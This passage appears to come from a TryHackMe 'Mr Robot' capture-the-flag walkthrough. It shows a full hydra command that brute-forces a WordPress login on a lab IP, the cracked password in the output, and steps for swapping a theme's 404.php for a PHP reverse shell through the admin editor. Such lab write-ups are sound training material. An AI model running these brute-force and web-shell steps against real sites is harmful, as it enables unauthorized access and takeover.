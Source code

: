 Second, with username `Elliot` I brute force password with the same method. The password is `ER28-0652`.

```
┌──(Hades㉿10.11.32.198)-[3.7:33.2]~/walkthrough/tryhackme/mrrobot
└─$ hydra -l Elliot -P fsocity.dic 10.10.38.89 http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.38.89%2Fwp-admin%2F&testcookie=1:The password you entered for the username' -I -t 64 
<snip>
[80][http-post-form] host: 10.10.38.89   login: Elliot   password: ER28-0652
1 of 1 target successfully completed, 1 valid password found
<snip>
```

Login to `wp-admin` successfully using knowed credential.

![](images/4.png)

### PHP ReverseShell

[*Poc code here*](https://github.com/leecybersec/walkthrough/tree/master/tryhackme/mrrobot)

At page 404 Template file `404.php`, I change the code in file to php reverse shell code.

`http://10.10.38.89/wp-admin/theme-editor.php?file=404.php&theme=twentyfifteen`
